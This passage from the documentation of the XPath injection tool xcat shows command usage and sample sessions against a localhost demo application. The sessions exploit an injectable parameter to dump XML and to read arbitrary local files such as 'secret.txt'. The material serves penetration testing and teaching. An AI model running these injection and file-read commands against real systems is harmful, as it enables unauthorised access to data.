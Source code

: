     Usage: xcat run retrieve [OPTIONS]

    Attempt to retrieve the whole XML document

    Options:
      --query TEXT         Query to retrieve. Defaults to root node (/*[1])
      --output FILENAME    Location to output XML to
      --format [xml|json]  Format for output
      --help               Show this message and exit.

The second command takes no additional arguments but enables you to read arbitrary files on the filesystem. This only
works if the vulnerable parameter supports the doc feature (and optionally entity injection):

    >> xcat --method=GET --public-ip="localhost" http://localhost:8080 title=Foundation title "1 results found" run file_shell
    Injecting using FunctionCall
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    There are three ways to read files on the file system using XPath:
     1. doc: Reads valid XML files - does not support any other file type. Supports remote file URI's (http) and local ones.
     2. inject: Can read arbitrary text files as long as they do not contain any XML
    Type doc, inject or comment to switch modes. Defaults to inject
    Type uri to read the URI of the document being queried
    Note: The URI should have a protocol, e.g: file:///test.xml. Bad things may happen if the URI does not exist, and it is best to use absolute paths.
    >> uri
    URI: file:///C:/Users/x/xcat/src/example_application/input.xml
    >> file:///C:/Users/x/xcat/src/example_application/
    secret.txt
    secret.xml
    ...
    >> doc
    Switched to doc mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.xml
    <?xml version="1.0" encoding="utf-8"?>
    <this_contains_xml>
        <node>
            hello
    ...
    >> inject
    Switched to inject mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.txt
    This is a secret file. Do not read me!

There are also two other commands `simple` and `console` that will help you navigate larger XML file without having to get everything. They are very 
useful to have a quick overview of the XML document.

The `simple` command :

    >> xcat --method=GET --public-ip="localhost" http://localhost:8080 title=Foundation title "1 results found" run simple
    Injecting using FunctionCall
    Detecting features...
    Listening on 0
    Listening on 42292
    Supported features: Out of bounds HTTP, String to codepoints, Substring search speedup, Read local XML files, XPath 2, Read local text files
    Retrieving overview
    <?xml version="1.0" encoding="utf-8"?>
    <library>
	    3 text node
	    <rentals>
		    3 text node